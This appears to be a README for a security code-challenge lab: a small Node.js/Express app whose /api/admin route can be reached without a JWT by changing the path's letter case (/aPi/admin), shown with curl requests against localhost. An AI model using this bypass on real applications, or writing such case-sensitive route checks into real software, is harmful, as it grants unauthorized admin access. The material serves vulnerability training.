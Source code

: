 # Day 4 Javascript
We have a small javascript application that developed by nodejs - expressjs framework.


# run
```bash
git clone https://github.com/ahmetak4n/sonarsource-code-challanges.git
cd sonarsource-code-challanges/day4
npm install
node app.js
```

# verify the vulnerability
You can't access `/api/admin` path because we don't have any valid JWT token
``` bash
curl  -X $'GET' \
    -H $'Host: localhost:1337' -H $'Upgrade-Insecure-Requests: 1' -H $'Connection: keep-alive' \
    -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36' \
    $'http://localhost:1337/api/admin'
```
----
You can bypass the token validation with following way
```bash
curl  -X $'GET' \
    -H $'Host: localhost:1337' -H $'Upgrade-Insecure-Requests: 1' -H $'Connection: keep-alive' \
    -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36' \
    $'http://localhost:1337/aPi/admin'
```
